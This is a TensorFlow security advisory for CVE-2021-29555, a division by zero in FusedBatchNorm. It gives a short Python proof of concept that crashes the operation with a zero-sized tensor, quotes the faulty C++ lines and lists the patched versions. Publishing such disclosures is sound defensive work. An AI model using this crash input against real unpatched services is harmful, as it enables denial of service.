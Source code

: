 ## TFSA-2021-043: Division by 0 in `FusedBatchNorm`

### CVE Number
CVE-2021-29555

### Impact
An attacker can cause a denial of service via a FPE runtime error in
`tf.raw_ops.FusedBatchNorm`:

```python
import tensorflow as tf

x = tf.constant([], shape=[1, 1, 1, 0], dtype=tf.float32)
scale = tf.constant([], shape=[0], dtype=tf.float32)
offset = tf.constant([], shape=[0], dtype=tf.float32)
mean = tf.constant([], shape=[0], dtype=tf.float32)
variance = tf.constant([], shape=[0], dtype=tf.float32)
epsilon = 0.0
exponential_avg_factor = 0.0
data_format = "NHWC"
is_training = False

tf.raw_ops.FusedBatchNorm(
    x=x, scale=scale, offset=offset, mean=mean,
    variance=variance, epsilon=epsilon,
    exponential_avg_factor=exponential_avg_factor,
    data_format=data_format, is_training=is_training)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/828f346274841fa7505f7020e88ca36c22e557ab/tensorflow/core/kernels/fused_batch_norm_op.cc#L295-L297)
performs a division based on the last dimension of the `x` tensor:

```cc
const int depth = x.dimension(3);
const int rest_size = size / depth;
```

Since this is controlled by the user, an attacker can trigger a denial of
service.

### Patches
We have patched the issue in GitHub commit
[1a2a87229d1d61e23a39373777c056161eb4084d](https://github.com/tensorflow/tensorflow/commit/1a2a87229d1d61e23a39373777c056161eb4084d).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
